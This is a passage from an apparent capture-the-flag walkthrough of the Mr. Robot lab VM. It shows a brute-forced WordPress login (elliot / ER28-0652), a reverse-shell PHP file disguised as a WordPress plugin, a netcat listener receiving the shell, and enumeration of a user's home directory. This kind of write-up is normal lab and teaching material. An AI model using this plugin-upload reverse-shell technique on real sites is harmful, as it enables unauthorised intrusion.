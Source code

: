 ```
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Thu Sep  8 01:31:32 2016
[+] Requests Done: 858206
[+] Memory used: 16.094 MB
[+] Elapsed time: 03:50:22
```

Almost 4 hours later, I got the password: ER28-0652. 

So I logged in and poked around. Next step seemed to be to get a shell on the target. That could easily be done by uploading a reverse shell plugin. I made a copy of Kali's php-reverse-shell.php, setup my IP address and port I'd be listening on, and added some comments at the top to make it a valid WordPress plugin:

```
<?php
/*
*     Plugin Name: Pwn It
*     Plugin URI: https://github.com/superkojiman/pwnit
*     Description: Get a shell yo
*     Author: superkojiman
*     Version: 13.37
*     Author URI: https://techorganic.com
*                             
*/
```

I zipped it up, uploaded the plugin and activated it. It worked, and I got a reverse shell on my listener:

```
# nc -lvp 443
listening on [any] 443 ...
172.16.146.134: inverse host lookup failed: Host name lookup failure
connect to [172.16.146.139] from (UNKNOWN) [172.16.146.134] 41298
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 13:57:46 up 31 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

I was logged in as daemon. Time to explore. 

```
$ cd /home
$ ls -latr
total 12
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
$ cd robot
$ ls -latr
total 16
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
